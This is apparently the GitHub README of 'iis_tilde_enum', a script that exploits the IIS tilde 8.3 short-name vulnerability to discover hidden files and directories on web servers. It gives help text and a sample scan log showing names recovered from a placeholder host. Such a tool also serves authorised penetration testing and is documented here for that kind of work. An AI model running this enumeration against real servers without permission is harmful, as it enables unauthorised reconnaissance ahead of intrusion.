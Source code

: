 iis_tilde_enum
==============

Takes a URL and then exploits the **IIS tilde 8.3 enumeration vuln** and tries to get you full file names.

You feed this script a URL and also a word list of potential file names. The script will look up the file
roots in your word list and then try them with appropriate extensions.

For word lists, the [fuzzdb](https://code.google.com/p/fuzzdb/) word lists are pretty good. We sometimes use the
[raft-small-words-lowercase.txt](https://code.google.com/p/fuzzdb/source/browse/trunk/discovery/PredictableRes/raft-small-words-lowercase.txt)
(or large or medium) for this work.

This is not a directory enumerator (i.e., tries all words in a list against a web server). It will only find
directories that have names longer than 8 characters (since only then will they have 8.3 names and be recognized
by the vulnerability). You should still try to enumerate directories using a word list and
[DirBuster](https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project) or Burp Intruder or something.

Just as a note: on Windows computers you can view 8.3 names in the command prompt window by using the
`dir /x` command. One of the columns will be the 8.3 name (if there is one).
You can find the converting rules for 8.3 filename on [wikipedia](http://en.wikipedia.org/wiki/8.3_filename#How_to_convert_a_long_filename_to_a_short_filename)

Always enjoy feedback and suggestions.


Help
----
<pre>$  ./tilde_enum.py -h
usage: tilde_enum.py [-h] [-d PATH_WORDLISTS] [-e PATH_EXTS] [-f] [-g]
                     [-o OUT_FILE] [-p PROXY] [-u URL] [-v VERBOSE_LEVEL]
                     [-w WAIT] [--limit-ext LIMIT_EXTENSION]
                     [--resume RESUME_STRING]

Exploits and expands the file names found from the tilde enumeration vuln

optional arguments:
  -h, --help            show this help message and exit
  -d PATH_WORDLISTS     Path of wordlists file
  -e PATH_EXTS          Path of extensions file
  -f                    Force testing even if the server seems not vulnerable
  -g                    Enable Google keyword suggestion to enhance wordlists
  -o OUT_FILE           Filename to store output
  -p PROXY              Use a proxy host:port
  -u URL                URL to scan
  -v VERBOSE_LEVEL      verbose level of output (0~2)
  -w WAIT               time in seconds to wait between requests
  --limit-ext LIMIT_EXTENSION
                        Enumerate for given extension only
  --resume RESUME_STRING
                        Resume from a given name (length lt 6)
</pre>


Sample Output
-------------
<pre>
$  ./tilde_enum.py -u "http://iis/subdir" -w 0.5 -o output/result.txt --resume=announ
[-]  Testing with dummy file request http://iis/Uxd9ckrVGZMmp.htm
[-]    URLNotThere -> HTTP Code: 404, Response Length: 1379
[-]  Testing with user-submitted http://iis/
[-]    URLUser -> HTTP Code: 200, Response Length: 1914
[-]  Resume from "announ"... characters before this will be ignored.
[-]  User-supplied delay detected. Waiting 0.5 seconds between HTTP requests.
[+]  The server is reporting that it is IIS (Microsoft-IIS/6.0).
[+]  The server is vulnerable to the IIS tilde enumeration vulnerability..
[+]  Found file:  announ~1.htm
[+]  Found directory:  aspnet~1/
[+]  Found file:  cate-v~1.asp
[+]  Found file:  cate-v~2.asp
[*]  Testing: http://iis/c9*~1*/.aspx
[!]  Stop tilde enumeration manually. Try wordlist enumeration from current findings now...

---------- OUTPUT START ------------------------------
[+] Raw results:
http://iis/announ~1.htm
http://iis/aspnet~1/
http://iis/cate-v~1.asp
http://iis/cate-v~2.asp

[+] Existing files found: 1
http://iis/announcement.htm

[+] Existing Directories found: 1
http://iis/aspnet_client/
---------- OUTPUT COMPLETE ---------------------------
</pre>
